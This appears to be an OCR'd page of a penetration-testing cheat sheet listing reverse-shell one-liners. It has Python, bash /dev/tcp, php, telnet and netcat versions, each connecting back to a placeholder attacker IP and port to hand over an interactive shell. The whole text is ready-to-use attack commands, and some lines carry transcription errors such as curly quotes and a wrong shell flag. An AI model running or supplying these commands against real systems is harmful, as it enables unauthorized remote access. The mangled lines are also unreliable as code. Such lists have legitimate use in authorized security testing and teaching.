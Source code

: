 ### <span style="color: #723d46">Reverse Shells:</span>

#### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_IP>",<attacker_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### bash

```
bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1
```

#### php

```
php -r ‘$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I <&3 >&3 2>&3”);’
```

#### telnet

```
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

#### netcat

```
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

#### netcat w/o “-e” option

```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```
